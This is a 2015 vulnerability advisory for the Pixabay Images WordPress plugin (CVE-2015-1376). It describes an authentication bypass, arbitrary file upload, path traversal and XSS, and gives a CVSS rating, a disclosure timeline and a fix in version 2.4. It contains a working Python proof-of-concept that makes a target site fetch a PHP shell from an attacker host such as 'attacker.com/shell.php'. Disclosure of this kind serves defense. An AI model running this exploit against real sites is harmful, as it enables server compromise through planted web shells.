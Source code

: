 ```yaml
---
layout: page
title: WP Pixarbay Images Multiple Vulnerabilities
id: MSA-2015-01
categories: [advisory]
---
```


<table>
    <tr>
        <td>Title</td>
        <td>{{page.title}}</td>
    </tr>
    <tr>
        <td>Id</td>
        <td>{{page.id}}</td>
    </tr>
    <tr>
        <td>CVE</td>
        <td>CVE-2015-1376</td>
    </tr>
    <tr>
        <td>Product</td>
        <td>Pixarbay Images (Wordpress Plugin)</td>
    </tr>
    <tr>
        <td>Affected versions</td>
        <td>2.3</td>
    </tr>
    <tr>
        <td>Impact</td>
        <td>high</td>
    </tr>
    <tr>
        <td>Remote</td>
        <td>yes</td>
    </tr>
    <tr>
        <td>Product link</td>
        <td>https://wordpress.org/plugins/pixabay-images/</td>
    </tr>
    <tr>
        <td>Reported</td>
        <td>14/01/2015</td>
    </tr>
    <tr>
        <td>By</td>
        <td>Hans-Martin Muench (Mogwai, IT-Sicherheitsberatung Muench)</td>
    </tr>
</table>


Vendor's Description of the Software:
-------------------------------------
Pixabay Images is a WordPress plugin that let's you pick CC0 public
domain pictures from Pixabay and insert them with just a click anywhere
on your blog. The images are safe to use, and paying attribution or
linking back to the source is not required.


Business recommendation:
------------------------
Update to version 2.4

CVSS2 Ratings
-------------

<table>
    <tr>
        <td>CVSS Base Score</td>
        <td>9.3</td>
    </tr>
    <tr>
        <td>Impact Subscore</td>
        <td>10</td>
    </tr>
    <tr>
        <td>Exploitability Subscore</td>
        <td>8.6</td>
    </tr>
    <tr>
        <td>CVSS v2 Vector</td>
        <td>(AV:N/AC:M/Au:N/C:C/I:C/A:C)</td>
    </tr>
</table>


Vulnerability description
----------------------------
1) Authentication bypass  
The plugin does not correctly check if the user is logged in. Certain
code can be called without authentication

2) Arbitrary file upload
The plugin code does not validate the host in the provided download URL,
which allows to upload malicious files, including PHP code.

3) Path Traversal  
Certain values are not sanitized before they are used in a file operation.
This allows to store files outside of the "download" folder.

4) Cross Site Scripting (XSS)
The generated author link uses unsanitized user values which can be
abused for Cross Site Scripting (XSS) attacks.



Proof of concept:
-------------------
The following PoC Python script can be used to download PHP files from
a attacker controlled host.

```python
#!/usr/bin/env python

import argparse
import httplib, urllib
from urlparse import urlparse

def exploit(target_url, shellcode_url):

	target = urlparse(target_url)

	params = urllib.urlencode({'pixabay_upload': 1, 'image_url': shellcode_url, 'image_user': 'none', 'q':'xxx/../../../../../../mogwai'})
	headers = headers = {"Content-type": "application/x-www-form-urlencoded"}

	print "[+] Sending download request...."
	conn = httplib.HTTPConnection(target.netloc)
	conn.request("POST", target.path + "/wp-admin/", params, headers)

	response = conn.getresponse()
	response_data = response.read()
	if response.status != 200 and response_data != "Error: File attachment metadata error":
		print "[-] Something went wrong"
		print response_data
		exit()

	conn.close()


# ---- Main code ----------------
parser = argparse.ArgumentParser()
parser.add_argument("target_url", help="The target url, for example http://foo.bar/blog/")
parser.add_argument("shellcode_url", help="The url of the PHP file that should be uploaded, for example: http://attacker.com/shell.php")

print "----------------------------------------------"
print " pixabay upload wordpress plugin exploit PoC"
print " Mogwai security"
print "----------------------------------------------"

arguments = parser.parse_args()
exploit(arguments.target_url, arguments.shellcode_url)
```

Disclosure timeline:
--------------------

<table>
    <tr>
        <td>14/01/2015</td>
        <td>Reporting issues to the plugin author</td>
    </tr>
    <tr>
        <td>15/01/2015</td>
        <td>Release of fixed version (2.4)</td>
    </tr>
    <tr>
        <td>19/01/2015</td>
        <td>Public advisory</td>
    </tr>
</table>

Advisory URL: https://www.mogwaisecurity.de/#lab


Mogwai, IT-Sicherheitsberatung Muench  
Steinhoevelstrasse 2/2  
89075 Ulm (Germany)  

info@mogwaisecurity.de
